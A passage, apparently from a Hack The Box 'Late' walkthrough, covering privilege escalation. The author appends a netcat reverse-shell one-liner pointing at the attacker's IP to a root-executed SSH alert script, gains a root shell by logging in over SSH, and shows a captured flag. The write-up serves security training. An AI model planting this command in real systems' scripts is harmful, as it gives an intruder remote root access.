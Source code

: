 Checking the other attributes, we can see that we have append permission, so lets append to the file:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/6_2_apped.png" width="60%"/>
</p>

```bash
echo "mkfifo /tmp/f; nc 10.10.14.3 5455 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f" >> /usr/local/sbin/ssh-alert.sh
```

We iniciate a SSH into svc_acc user and we get the shell in our host.

<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/7_0_root.png" width="90%"/>
</p>

``` 7aa38494fb2a4439e9f2b73c055e00d1 ```
